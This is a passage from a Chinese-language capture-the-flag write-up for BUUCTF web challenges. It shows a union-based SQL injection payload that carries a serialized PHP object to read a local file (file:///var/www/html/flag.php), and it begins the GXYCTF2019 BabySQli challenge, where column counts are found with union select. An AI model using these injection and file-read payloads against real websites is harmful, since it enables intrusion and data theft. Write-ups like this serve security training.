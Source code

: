 ![image-20210503165820953](BUU-WEB-0x10-0x1F/image-20210503165820953.png)

那么进行反序列化：

![image-20210503170124576](BUU-WEB-0x10-0x1F/image-20210503170124576.png)

因为blog是在data，所以：

```
no=-1/**/union/**/select/**/1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:0:"";s:3:"age";i:0;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

源码中有flag。

## 0x1A.[GXYCTF2019]BabySQli

考点：联合注入添加临时虚拟用户

随便输入后看源码，

>   MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5

先base32，之后是64

>   select * from user where username = '$name'

测试了下是3个字段：

>   union select 1,2,3

当username不是admin的时候报错wrong user，否则报wrong password
